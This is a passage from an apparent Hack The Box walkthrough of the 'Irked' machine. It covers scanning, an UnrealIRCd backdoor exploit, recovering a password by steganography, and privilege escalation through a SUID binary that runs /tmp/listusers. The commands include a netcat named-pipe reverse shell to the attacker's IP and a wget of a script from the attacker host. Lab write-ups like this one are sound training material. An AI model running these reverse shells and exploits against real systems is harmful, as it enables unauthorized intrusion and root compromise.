# System Information



# System Enumeration
I used threader3000 to do a port scan and then passed it to nmap.

```sh
------------------------------------------------------------  
        Threader 3000 - Multi-threaded Port Scanner            
                       Version 1.0.7                      
                   A project by The Mayor                 
------------------------------------------------------------  
Enter your target IP address or URL here: 10.10.10.117  
------------------------------------------------------------  
Scanning target 10.10.10.117  
Time started: 2021-12-18 20:48:33.914659  
------------------------------------------------------------  
Port 22 is open  
Port 111 is open  
Port 80 is open  
Port 6697 is open  
Port 8067 is open  
Port 35971 is open  
Port 65534 is open  
Port scan completed in 0:00:11.176661  
------------------------------------------------------------  
Threader3000 recommends the following Nmap scan:  
************************************************************  
nmap -p22,111,80,6697,8067,35971,65534 -sV -sC -T4 -Pn -oA 10.10.10.117 10.10.10.117  
************************************************************  
Would you like to run Nmap or quit to terminal?  
------------------------------------------------------------  
1 = Run suggested Nmap scan  
2 = Run another Threader3000 scan  
3 = Exit to terminal  
------------------------------------------------------------  
Option Selection: 1  
nmap -p22,111,80,6697,8067,35971,65534 -sV -sC -T4 -Pn -oA 10.10.10.117 10.10.10.117  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-18 20:48 EST  
Nmap scan report for 10.10.10.117  
Host is up (0.023s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
| ssh-hostkey:   
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)  
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)  
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)  
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)  
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))  
|_http-server-header: Apache/2.4.10 (Debian)  
|_http-title: Site doesn't have a title (text/html).  
111/tcp   open  rpcbind 2-4 (RPC #100000)  
| rpcinfo:   
|   program version    port/proto  service  
|   100000  2,3,4        111/tcp   rpcbind  
|   100000  2,3,4        111/udp   rpcbind  
|   100000  3,4          111/tcp6  rpcbind  
|   100000  3,4          111/udp6  rpcbind  
|   100024  1          34339/tcp6  status  
|   100024  1          35971/tcp   status  
|   100024  1          48654/udp   status  
|_  100024  1          56466/udp6  status  
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)  
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)  
35971/tcp open  status  1 (RPC #100024)  
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds  
------------------------------------------------------------  
Combined scan completed in 0:00:27.354283  
Press enter to quit...
```


### Port 80

Browsing to http://10.10.10.117 showed the following page, feroxbuster found /manual/ which led to the apache documentation. Didn't look like there was much here. Ran another scan in the background and moved on.

```sh
kali@kali-[~/boxes/htb/irked]$feroxbuster -u http://10.10.10.117 --no-recursion

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.117
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      313c http://10.10.10.117/manual
403       11l       32w      300c http://10.10.10.117/server-status
[####################] - 18s    29999/29999   0s      found:2       errors:1      
[####################] - 18s    29999/29999   1627/s  http://10.10.10.117
```





### UnrealIRCd

Nmap identified this service on 3 different ports, using nc to connect to them all had the same response.

```sh
kali@kali-[~/boxes/htb/irked]$nc -nv 10.10.10.117 8067
(UNKNOWN) [10.10.10.117] 8067 (?) open
:irked.htb NOTICE AUTH :*** Looking up your hostname...
```

I used searchsploit to see if there was any public exploits.

```sh
kali@kali-[~/boxes/htb/irked]$searchsploit unrealircd
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                       | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                            | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                     | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                          | windows/dos/27407.pl
```

While I didn't have a version, all of these exploits were for the same version and this was probably worth a try. I took a look at the perl script, but it wasnt quite setup for what I would want to get a reverse shell. I searched for this on github and found a [python script](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) that looked more promising.

I changed the variables for local IP and port to my HTB IP and port 443.

```sh
# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.14.34'  # CHANGE THIS
local_port = '443'  # CHANGE THIS 
```


I then setup a listener and ran the script.

```sh
kali@kali-[~/boxes/htb/irked/UnrealIRCd-3.2.8.1-Backdoor]$python3 exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```

A few seconds after the script completed, I got a reverse shell.

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 48526
bash: cannot set terminal process group (635): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$ 
```


# ircd User

Poked around a little bit, but didn't find anything with basic manual enumeration. I transferred linpeas to the system.

```sh
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.117 - - [18/Dec/2021 21:19:59] "GET /linpeas.sh HTTP/1.1" 200 -
```


```sh
ircd@irked:~$ cd /tmp
cd /tmp
ircd@irked:/tmp$ wget http://10.10.14.34/linpeas.sh -O lin.sh
wget http://10.10.14.34/linpeas.sh -O lin.sh
--2021-12-18 21:20:00--  http://10.10.14.34/linpeas.sh
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451118 (441K) [text/x-sh]
Saving to: ‘lin.sh’

     0K .......... .......... .......... .......... .......... 11%  816K 0s
    50K .......... .......... .......... .......... .......... 22% 1.31M 0s
   100K .......... .......... .......... .......... .......... 34% 1.39M 0s
   150K .......... .......... .......... .......... .......... 45% 1.39M 0s
   200K .......... .......... .......... .......... .......... 56% 1.46M 0s
   250K .......... .......... .......... .......... .......... 68% 1.77M 0s
   300K .......... .......... .......... .......... .......... 79% 1.72M 0s
   350K .......... .......... .......... .......... .......... 90% 1.71M 0s
   400K .......... .......... .......... ..........           100% 1.75M=0.3s

2021-12-18 21:20:00 (1.39 MB/s) - ‘lin.sh’ saved [451118/451118]

ircd@irked:/tmp$ chmod +x lin.sh
chmod +x lin.sh
ircd@irked:/tmp$ ./lin.sh 
```


Linpeas findings:

```sh
-rwsr-xr-x 1 root   root       7.2K May 16  2018 /usr/bin/viewuser (Unknown SUID binary)
```


I saw the unknown SUID binary and tried to run it but wasn't able to figure out anything further with it. I created a /tmp/listuser file and added a username but still didn't do anything.

```sh
ircd@irked:/tmp$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 20:47 (:0)
/tmp/listusers: 1: /tmp/listusers: djmardov: not found
```


I went back to /home/djmardov and under Documents I found the user.txt and a .backup file that I have read permissions to.

```sh
ircd@irked:/home/djmardov/Documents$ ls -al
ls -al
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
```


Contents of .backup.

```sh
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

I looked through the /home/djmardov folder, but didn't find any pictures. I remembered I saw an image on http://10.10.10.117. I downloaded the image and used steghide to extract a 'pass.txt' file.

```sh
kali@kali-[~/boxes/htb/irked]$steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".
kali@kali-[~/boxes/htb/irked]$cat pass.txt
Kab6h+m+bbp2J:HG
```

# djmardov User

As the djmardov user I can now read user.txt.

```sh
djmardov@irked:~/Documents$ cat user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

I looked around for a while as djmardov user but couldn't find an obvious priv esc route. I remembered that ports 25 and 631 were open locally.


```sh
djmardov@irked:/home$ netstat -anp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
```


Another point to mention here is that I was able to ssh in as djmardov with the password found, allowing me persistent access as this user. This also gives me the option to port forward using ssh, which is what I did to get access to port 631.

```sh
kali@kali-[~/boxes/htb/irked]$ssh -L 8000:127.0.0.1:631 djmardov@10.10.10.117 
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec 19 08:46:08 2021 from 10.10.14.34
djmardov@irked:~$ 
```


Testing if it worked.

```sh
kali@kali-[~/boxes/htb/irked]$nc -nv 127.0.0.1 8000
(UNKNOWN) [127.0.0.1] 8000 (?) open
```


I briefly looked up port 631 and found out it is normally used for the Internet Printing Protocol (IPP) and a common application used is CUPS. Browsing to http://127.0.0.1:8000 showed the following page. It looks like CUPS 1.7.5 is running.




Googling this version reveals a [RCE exploit](https://www.exploit-db.com/exploits/41233).


Initially running this exploit it failed with "no printers". 

```sh
kali@kali-[~/boxes/htb/irked]$python 41233.py -a 127.0.0.1 -b 8000 -c test.so

             lol ty google
             0000000000000
          0000000000000000000   00
       00000000000000000000000000000
      0000000000000000000000000000000
    000000000             0000000000
   00000000               0000000000
  0000000                000000000000
 0000000               000000000000000
 000000              000000000  000000
0000000            000000000     000000
000000            000000000      000000
000000          000000000        000000
000000         00000000          000000
000000       000000000           000000
0000000    000000000            0000000
 000000   000000000             000000
 0000000000000000              0000000
  0000000000000               0000000
   00000000000              00000000
   00000000000            000000000
  0000000000000000000000000000000
   00000000000000000000000000000
     000  0000000000000000000
             0000000000000
              @0x00string
https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py

[*]	locate available printer
[-]	no printers
```


Looking through the dashboard I clicked on "Administration" at the top of the page amd there is an "Add Printer" option. 



When I clicked on "Add Printer" it prompted me for a username and password, I entered djmardov:Kab6h+m+bbp2J:HG and it granted me access. I chose "HP Printer" here.





The next screen asked for a connection, so I entered http://127.0.0.1:631, where the IPP service is listening locally. 




I entered the following information on the next page. 



I selected "HP" here and clicked "Add Printer".




I just clicked "Add Printer" here and kept the default selected model.



I selected "Set default options" here. 




And finally I get confirmation the printer has been added before the page redirects to http://127.0.0.1:631/printers/test.




I tried running the script multiple times, something was going wrong with the http request in python, I was able to view the page being requested in the browser but through curl or the python script I would get a "400 Bad request" after failing with this multiple times, I moved on. This might not be the route to go. One thing I did not try earlier was the unknown SUID binary viewuser, which gave a different output than before.

```sh
djmardov@irked:/home$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
sh: 1: /tmp/listusers: not found
```

I attempted to make the /tmp/listusers file with different account names. One thing I did differently that I didn't think about before involved the response "Permission denied". I changed the listusers file to read for everyone, and the response from viewuser was "Permission denied". Then I realized it seemed it may be trying to execute something since everyone had read access to listusers.

```sh
djmardov@irked:/tmp$ chmod 444 listusers 
djmardov@irked:/tmp$ ls -al
total 496
drwxrwxrwt 11 root     root       4096 Dec 19 10:23 .
drwxr-xr-x 21 root     root       4096 May 15  2018 ..
drwxrwxrwt  2 root     root       4096 Dec 18 21:52 .font-unix
drwxrwxrwt  2 root     root       4096 Dec 18 21:52 .ICE-unix
-rwxr-xr-x  1 djmardov djmardov 451118 Jul 21 17:32 lin.sh
-r--r--r--  1 djmardov djmardov      5 Dec 19 10:22 listusers
```


```sh
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
sh: 1: /tmp/listusers: Permission denied
```

I changed permissions again so I could edit the listusers file, and then echoed 'id' to it. In the output I can see the results of id and the command was run as root. 

```sh
djmardov@irked:/tmp$ chmod 744 listusers
djmardov@irked:/tmp$ echo 'id' > listusers 
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```


After trying a couple reverse shells, I got one to work.

```sh
djmardov@irked:/tmp$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
rm: cannot remove ‘/tmp/f’: No such file or directory
```

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 54454
# whoami
root
# 
```


```sh
# cat root.txt
8d8e9e8be64654b................
```

# Did I need djmardov?

Considering I had access to the viewuser binary before getting access to djmardov, I wondered if I needed to perform lateral movement to get root. I reset the box becuase the IRC service crashes after the initial exploit runs. 

I ran the initial expoit again and got a shell as the ircd user.

```sh
kali@kali-[~/boxes/htb/irked/UnrealIRCd-3.2.8.1-Backdoor]$python3 exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 33392
bash: cannot set terminal process group (629): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$ 
```


It looks like it worked, I'll try a reverse shell as well.

```sh
ircd@irked:~/Unreal3.2$ cd /tmp 
cd /tmp
ircd@irked:/tmp$ echo 'id' > listusers
echo 'id' > listusers
ircd@irked:/tmp$ chmod 744 listusers
chmod 744 listusers
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
uid=0(root) gid=1001(ircd) groups=1001(ircd)
This application is being devleoped to set and test user permissions
It is still being actively developed
ircd@irked:/tmp$ 
```

The reverse shell worked as expected, and I went straight from the ircd user to root.

```sh
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
